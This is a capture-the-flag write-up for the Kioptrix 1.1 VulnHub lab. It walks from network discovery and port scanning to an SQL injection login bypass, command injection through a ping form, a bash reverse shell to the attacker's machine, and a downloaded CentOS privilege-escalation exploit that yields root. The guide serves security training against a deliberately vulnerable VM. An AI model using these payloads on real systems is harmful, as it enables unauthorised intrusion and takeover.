# Kioptrix 1.1 Writeup

This vulnerable virtual machine was obtained from [VulnHub](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/ "URL for kioptrix 1.1"). The kioptrix series are intended for use with VMWare, but by following the instructions found [here](http://hypn.za.net/blog/2017/07/15/running-kioptrix-level-1-and-others-in-virtualbox/ "running kioptrix in VirtualBox"), you can get the virtual machines to work with VirtualBox.

## Information gathering

After booting up the attacker and vulnerable virtual machines, we can use the `ifconfig` and `netdiscover` commands to find the IP address of both of them. Running `ifconfig` will get us the IP address of the attacker machine, and from that, we can scan the local subnet with `netdiscover -i eth0 -r 10.0.2.0/24` to find the IP address of the vulnerable machine. We scan the local subnet because we know that VirtualBox assigns IPs in that subnet, but the command can be changed to be `/12` or something else depending on the range you wish to scan. The arguments to the `netdiscover` command specify that the network device `eth0` should be used for sniffing for ARP packets, and that the range to scan should be the IP addresses included in the `10.0.2.0/24` subnet, which are `10.0.2.1 - 10.0.2.254`.





`netdiscover` presents us with four possible IP addresses for our target machine, and now we must narrow down the specific one that we will be exploiting. Since we know that our target is running as virtual machine on VirtualBox, that narrows the options down to `10.0.2.3` and `10.0.2.4`, because VirtualBox typically uses the `08:00:27` MAC address prefix. After `ping`ing both of the addresses, it is determined that `10.0.2.4` is the target, because it replies to the pings.

## Scanning

Now that we know what our target is, we will enumerate the ports that are open to try to see if any of them have vulnerable services running. The tool we'll use for that is `nmap`. Running `nmap -sV 10.0.2.4` will tell us the specific versions of the services running on the TCP ports, if possible, as compared to a normal `nmap 10.0.2.4`, which will just tell us the services that are running.



We can see that the target has several ports open, and we'll run down the list to try to see which ones we can exploit.

## Gaining Access

Using the `searchsploit` command, we can look for exploits that the target could be vulnerable to. Running `searchsploit openssh` shows us all of the exploits available for OpenSSH from [exploit-db](https://www.exploit-db.com/ "exploit-db"), but unfortunately, none of them are of interest to us. We're looking for something that can give us remote code execution, and the only one found that does that is for OpenSSH 3.5p1, while the version on the target is more recent than that.



Because we didn't have any luck with port 22, we'll move on to considering the next one on the list, port 80. Since http is running on this port, we can try to navigate to the IP address in a web browser and see what we can find. Loading up `http://10.0.2.4` in Firefox gives us a login screen for remote system administration. This seems like a promising attack vector.



Since MySQL is also running on the target machine, it's likely that this login form is using SQL, and we can check to see if it's vulnerable to an SQL injection. A simple login SQL query would be something like `SELECT id FROM Users WHERE Username = 'InputUsername' AND Password = 'InputPassword'`, so we can manipulate the username and password parameters to get a valid SQL statement that will let us log in. If we use `' OR ''='` for both the username and the password, then the SQL query becomes `SELECT id FROM Users WHERE Username = '' OR ''='' AND Password = '' OR ''=''`, which will essentially check if `''=''` evaluates to true, which it does, allowing us to bypass proper authentication. This will log us in as the first user in the user table, and we now have access to the administrative web interface.



This interface provides a text box where we can input an IP address and the target will ping it and provide the results for us.



Interestingly enough, the results that are provided seem to be the same as if the Unix command `ping -c 3 8.8.8.8` was used. Could it be possible that the web interface is just throwing what we type into the text box into the command and executing it on the server? Let's test out this theory by putting `8.8.8.8; whoami` into the field. This will allow us to run the `whoami` command after the server pings 8.8.8.8, and if our hypothesis is correct, we'll see the user that the web interface is running the command as.



Looks like the idea was right. We can see that after the ping results, there's a line for "apache," meaning that this is who the commands are running under, and that we have remote command execution on the machine. However, we don't have root access yet, which is our main objective. Additionally, our access is limited to just sending commands, we don't have a completely interactive way of communicating with the target machine. These issues are what we will solve in the next step.

## Elevating access

Let's try to achieve an interactive way to talk to the target machine. Since we can execute a command with the administrative web console, we can use `nc` on our attacking machine and `bash` on the console to start an interactive session. The command `nc -lvp 4444` on our attacking system allows us to listen on port 4444 for incoming connections and provide verbose output. After this is listening, we can submit `; bash -i >& /dev/tcp/10.0.2.5/4444 0<&1` into the text box and this will connect our two machines with an interactive session. The arguments to the `bash` command will run a new interactive instance of bash with standard output and standard error being redirected to a TCP connection to the chosen IP address and port, in this case our attacker's VM and the port that `nc` is listening on, and that standard input will be read through this connection.



After submitting this, the web browser will display a constantly loading page and our `nc` listener will now have a `bash` shell waiting for us.

Now that we're connected to the target machine, we need to find a way to gain root access, as the apache user we're logged in as doesn't have sudo or root privileges by default. We're going to see what directory we're currently in with the `pwd` command, and we'll use `ls -l` to see if we're allowed to write to any files in our current directory. Then, we'll attempt to find out what specific operating system the target machine is running with `uname -a`, `lsb_release -a`, and `cat /etc/*-release` to see if there are any useful local exploits we can run.



From the results of these commands, we can see that we're currently in the /var/www/html directory, where we are not allowed to write to any files, and that the target is running CentOS 4.5. We can use the `searchsploit` command again on our attacking machine to see if we can find any local privilege escalation exploits that we can use. Running `searchsploit centos local -o` will show all of the local exploits available for CentOS, with the `-o` flag allowing the exploit names to be fully shown. While it may not look pretty, it will help us find the exploit we want easier.



We can see that there are a few local privilege escalation exploits to choose from, and after trying them all, I've found that exploits/linux/local/9545.c is the one that works best right out of the box. Now, we need to get the exploit loaded on the target machine.

Since the apache user can't write to the current directory it's in, we will use the /tmp directory, which can be written to and read by any user. A simple `cd /tmp` will take us there. We can then use the `wget` command to download the exploit source code from [exploit-db](https://www.exploit-db.com/raw/9542/ "The source code for the exploit we're using") onto the target. The specific command we'll use will be `wget --no-check-certificate http://www.exploit-db.com/raw/9542 -O exploit.c`, which will bypass certificate verification (you shouldn't do this unless you are convinced of the site's authenticity or you don't care about the validity of its certificate), and download the contents of the page into the exploit.c file.

Once the exploit is downloaded, we can use `gcc` to compile it because we just downloaded exploit source code written in C. After you compile the exploit with `gcc exploit.c`, there will be an executable file called a.out, and now you can run the exploit with `./a.out`. We can see that the exploit worked because our prompt symbol changed from `$` to `#`, and if we run `whoami`, we can see that we are now root!


